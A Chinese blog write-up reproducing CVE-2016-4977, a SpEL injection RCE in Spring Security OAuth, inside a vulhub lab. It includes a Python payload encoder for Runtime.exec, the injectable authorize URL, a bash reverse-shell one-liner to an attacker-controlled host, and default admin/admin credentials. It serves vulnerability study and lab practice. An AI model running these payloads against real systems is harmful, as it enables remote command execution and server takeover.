


# 漏洞复现-CVE-2016-4977-Spring 远程代码执行 - 铺哩 - 博客园

> 原文：[`www.cnblogs.com/cute-puli/p/13352579.html`](https://www.cnblogs.com/cute-puli/p/13352579.html)

# 0x00 实验环境

攻击机：Win 10

靶机也可作为攻击机：Ubuntu18 （docker 搭建的 vulhub 靶场）（兼顾反弹 shell 的攻击机）

# 0x01 影响版本

Spring Security OAuth 1.0.0 到 1.0.5

Spring Security OAuth 2.0.0 到 2.0.9

Spring Security OAuth 2.0 到 2.0.14

Spring Security OAuth 2.1 到 2.1.1

Spring Security OAuth 2.2 到 2.2.1

Spring Security OAuth 2.3 到 2.3.2

# 0x02 实验入坑说明

（1）poc 的执行环境请一定要使用**python3**，不一定要在靶机 Ubuntu 内运行 poc

（2）直接在自己的服务器监听的是另一个端口，并不影响实验的复现，相当于一个端口启动一个靶场，然后使用另一个端口接收反弹回来的 shell

# 0x03 实验步骤

（1）首先，我们打开靶场环境：看到**logo**即可确定是**spring**的集成环境


 （2）这里我们复现的步骤一定要一步一个脚印，不可大意。

首先，在 vulhub 的靶场内你可以看到一个**poc.py**


 这个 poc.py 并不是你所希望的那种一键 getshell 的 exp，而是一个用于对 bash 脚本进行编码的 poc，如果想知道为什么，请查看文末的友情链接

这个 poc 十分重要，且只能使用 python3 的环境，Ubuntu 默认已安装 python3，但是，如果直接输入 python 是使用的 python2 的环境，我在此填坑半小时

可以 cat poc.py 后直接在自己的本机上运行该 poc.py，其全部代码如下：

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'
```

（3）靶场环境有一个 URL 十分重要，即为：

> http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test

这就是存在命令执行的漏洞环境。触发点在：**${233*233}**

想知道原理可以查询这篇文章，已经写得非常好了：

> [`www.cnblogs.com/litlife/p/10380701.html`](https://www.cnblogs.com/litlife/p/10380701.html)

（4）复现步骤如下，将自己的 shell 接收地址记录编辑下来：

```
bash -i >& /dev/tcp/your-ip/1234 0>&1
```

在以下网站进行编码操作：

> [`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)



然后运行**poc.py**脚本：（可以不在 Ubuntu 内运行，我是为了单纯的方便）

提示输入需要编码的字符串，然后将以下在

**java.lang.Runtime.exec() Payload Workarounds**生成的反弹 shell 的 payload 复制到上面的输入框中


成功生成一大串的已经编码过的 payload：


> http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test

看到**${233*233}**了吗，此时，我们只要用自己的反弹 shell 的 payload 把**${233*233}**这个命令执行触发点替换即可

但是，在替换之前，请记得在你的攻击机 Ubuntu 上开启监听：


 第一次输入上面的 URL 的时候，会提示你输入账号密码，直接输入**admin/admin**就可以到达错误页面了：


此时我们就可以使用 payload 进行反弹 shell 到 Ubuntu 了，以下为我在外网搭建的靶场反弹成功的例子，你也可以动手试试：




# 0x04 实验原理

（1）实验原理大致是该版本的 Spring 的一个错误页面，存在参数获取未进行过滤，导致可以直接对服务器执行系统权限

（2）详情请参考这篇非常经典的文章：[`www.cnblogs.com/litlife/p/10380701.html`](https://www.cnblogs.com/litlife/p/10380701.html)（在此不再赘述）